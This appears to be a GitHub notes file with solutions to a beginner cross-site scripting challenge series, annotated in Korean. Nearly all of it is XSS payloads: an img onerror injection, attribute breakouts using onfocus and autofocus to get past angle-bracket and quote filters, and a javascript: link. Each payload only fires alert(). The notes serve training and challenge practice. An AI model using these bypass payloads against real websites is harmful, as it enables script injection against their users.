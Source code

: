 # xsschall
quic_xss

#1
//aaaaa"</b><img/src=x onerror=alert(document.domain)><b>

#2
aaa"><img/src onerror=alert(document.domain) alt="1
  
#3 p2 =japan 부분에 입력
aaaaa"</b><img/src=x onerror=alert(document.domain)<b>


#4 p3 hackme 부분
aaaaa"</b><img/src=x onerror=alert(document.domain)<b>

#5 걍(maxlength 보는데 걍.. 프록시잡아서..)
aaaaa"</b><img/src=x onerror=alert(document.domain)<b>


###6 <> filter 상태에서 / onfocus 핸들러로 트리거

1" onfocus=alert(document.domain) "

" onerror=alert() alt="
" autofocus onfocus=alert(1)"
1" onfocus=alert(document.domain) "
1" onfocus=alert(document.domain) autofocus "
/// ESC키 연타 + 마우스 이동해서 포커스 해제~!~!~!~!~!
<input type="text" onmouseover=alert()"">
<input type="text" name="p1" size="50" value="1" onfocus=alert() ""> 

#7 <> filter 에다가 "도 필더다 ~ 근데 걍됨
1" onfocus=alert(document.domain) "
<input type="text" name="p1" size="50" value=1&quot; onfocus=alert(document.domain) &quot;>

[풀이]
" 필터링을 우회 할 수 있는 방법을 사용해야 할 것 같습니다.
[문제 정답]
정답 : / onfocus=alert(document.domain)
필터링되는 " 대신 /를 이용하여 XSS 공격 구문을 삽입합니다.


#8 href=구문 상황에서 실행  // link 형식
javascript:alert(document.domain)
<a href="javascript:alert(document.domain)">





"<>를 인풋에 집어넣어서 필터링되는지보고
